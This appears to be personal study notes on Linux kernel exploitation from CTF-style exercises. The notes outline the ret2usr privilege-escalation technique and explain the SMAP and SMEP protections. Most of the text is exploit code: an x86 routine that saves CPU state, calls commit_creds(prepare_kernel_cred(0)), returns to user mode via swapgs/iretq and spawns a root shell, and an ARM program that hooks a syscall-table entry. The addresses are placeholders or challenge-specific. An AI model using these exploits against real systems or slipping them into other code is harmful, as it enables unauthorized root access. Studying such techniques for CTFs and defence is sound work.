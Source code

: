 
## [LinuxKernelPwn](https://www.digitalwhisper.co.il/files/Zines/0x6F/DW111-1-LinuxKernelPwn.pdf)exploit
1. save the process state (`flags, rsp, ss, cs`)
2. while in kernel mode return to your exploit which 
* `commit_creds(prepare_kernel_cred(0));` , you can get their location by reading `/proc/kallsyms` (kernel all symbols)
* return to user mode (`swapgs` & `iretq`) and `system(/bin/sh)`

## [Knote](https://pwning.tech/knote/)

uses the same technique here's the exploit code

```c
long prepare_kernel_cred = 0xDEADC0D3;
long commit_creds = 0xDEADC0DE;
long _proc_cs, _proc_ss, _proc_rsp, _proc_rflags = 0;

void set_ctx_reg() {
    __asm__(".intel_syntax noprefix;"
            "mov _proc_cs, cs;"
            "mov _proc_ss, ss;"
            "mov _proc_rsp, rsp;"
            "pushf;" // push rflags
            "pop _proc_rflags;"
            ".att_syntax");

    printf("[+] CS: 0x%lx, SS: 0x%lx, RSP: 0x%lx, RFLAGS: 0x%lx\n", _proc_cs, _proc_ss, _proc_rsp, _proc_rflags);
}


void spawn_shell()
{
    puts("[+] Hello Userland!");
    int uid = getuid();
    if (uid == 0)
        printf("[+] UID: %d (root poggers)\n", uid);
    else {
        printf("[!] UID: %d (epic fail)\n", uid);
    }

    puts("[*] starting shell");
    system("/bin/sh");

    puts("[*] quitting exploit");
    exit(0); // avoid ugly segfault
}

void privesc_ctx_swp()
{
    __asm__(".intel_syntax noprefix;"
            /**
             * struct cred *prepare_kernel_cred(struct task_struct *daemon)
             * @daemon: A userspace daemon to be used as a reference
             *
             * If @daemon is supplied, then the security data will be derived from that;
             * otherwise they'll be set to 0 and no groups, full capabilities and no keys.
             *
             * Returns the new credentials or NULL if out of memory.
             */
            "xor rdi, rdi;"
            "movabs rax, prepare_kernel_cred;"
            "call rax;" // prepare_kernel_cred(0)

            /**
             * int commit_creds(struct cred *new)
             * @new: The credentials to be assigned
             */
            "mov rdi, rax;" // RAX contains cred pointer
            "movabs rax, commit_creds;"
            "call rax;"

            // setup the context swapping
            "swapgs;" // swap GS to userland

            "mov r15, _proc_ss;"
            "push r15;"
            "mov r15, _proc_rsp;"
            "push r15;"
            "mov r15, _proc_rflags;"
            "push r15;"
            "mov r15, _proc_cs;"
            "push r15;"
            "lea r15, spawn_shell;" // lea rip, spawn_shell ; when returning to userland
            "push r15;"
            "iretq;" // swap context to userland
            ".att_syntax;");
}
```

## Kernel protections
SMAP - Supervisor Mode Access Prevention, sets user-space memory mappings so that **access** to those mappings from supervisor mode will cause a trap.
SMEP - Supervisor Mode Execution Prevention, same as SMAP but for **execution**. (I could have used syscall in `CrabOS` if I disabled it)

### Arm Kernel Exploitation
https://github.com/xairy/linux-kernel-exploitation?tab=readme-ov-file#ctf-tasks
https://pwnfirstsear.ch/2020/05/10/spamandhexctf2020-secstore.html#secstore-1


```c
#include <sys/syscall.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

#define EXPLOIT 222
#define SYS_UPPER 223
#define SYS_CALL_TABLE 0x8000e348

long commit_creds = 0x8003f56c;
long prepare_kernel_creds = 0x8003f924;

void exploit() {
    puts("[+] redirected syscall execution");
    // volatile keyword idicates that the instuctions has important side-effects.
    asm volatile (
        "eor r0, r0\n"
        // "bl prepare_kernel_creds\n"
        // "bl commit_creds\n"
    );
    puts("[+] privileges escaleted");    
}

int main(int argc, char *argv[]) {
    unsigned int** syscall_table = (unsigned int**)SYS_CALL_TABLE;
    char *entry_value = "\x89\x01\x03\x01";
    int hook_address = 0;
    printf("[*] exploit location: %p\n", (void *)exploit);
    
    // overwrite an empty syscall
    syscall(SYS_UPPER, entry_value, &syscall_table[EXPLOIT]);
    syscall(SYS_UPPER, &syscall_table[EXPLOIT], (char *)&hook_address);
    printf("[*] hook address: %p\n", (int *)hook_address);

    // triger hook
    exploit();
    // syscall(EXPLOIT);
    
    return 0;
}

/* 
gcc -Wl,--section-start=.text=0x1030110 sol.c -o sol
*/
```

technique
https://github.com/smallkirby/kernelpwn/tree/master/technique